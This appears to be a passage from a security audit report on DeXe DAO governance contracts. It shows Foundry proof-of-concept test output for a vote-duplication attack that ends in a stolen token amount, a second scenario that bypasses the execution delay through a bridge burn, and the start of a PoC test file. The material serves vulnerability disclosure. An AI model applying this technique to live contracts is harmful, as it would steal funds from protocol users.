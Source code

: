 ```solidity
  maxLockedAmountAfterUnlock    :  0
  
  ------------ 5. The attacker withdraws his tokens ------------
  >>> The attacker withdraw his token and send the token to tmp address
  beforeTmpBalance              :  0
  afterTmpBalance               :  407170598380293125000000
  
  ------------ 6. Mint 1 DeXe token ----------------------------
  >>> Mint 1 DeXe token and and it to attacker address
  >>> * In reality, mint can be done by general users. (bridge)
  - State is Voting ?  true
  
  ------------ 7. The attacker duplicates the votes ------------
  >>> The attacker deposits and votes using tmp wallet
  - State is Locked ?  true
  
  ------------ 8. The attacker execute the proposal ------------
  >>> The attacker waits for 30 mins
  - State is SucceededFor ? true
  >>> The attacker executes the proposal after voteEnd + 30 mins
  - State is ExecutedFor ? true
  
  usedDeXeAmount                :  407170598380293125000001
  stolenAmount                  :  2243173990175538220222950

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 668.58ms
```

### Attack Scenario 2.

The new impact is that exploiting the vulnerabilities mentioned in this report allows an attacker to execute the proposal without a delay of 30 minutes.

If the total number of votes meets the quorum and the current time is greater than executeAfter, the proposal is executable.

That means the proposal is executable when executeAfter is 0 and totalVotes is greater than the quorum.

If 1 DEXE token is burnt (transfer to ethereum network through bridge) when totalVotes = quorum - 1, ... Can you imagine what would happen in this case?

Yes, the proposal is viable without delay.

POC:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../src/PoC.sol";
import "./DeXe/interfaces/IGovPool.sol";

interface IGovUserKeeper {
    function depositTokens(
        address payer,
        address receiver,
        uint256 amount
    ) external;

    function tokenBalance(
        address voter,
        IGovPool.VoteType voteType
    ) external view returns (uint256 balance, uint256 ownedBalance);

```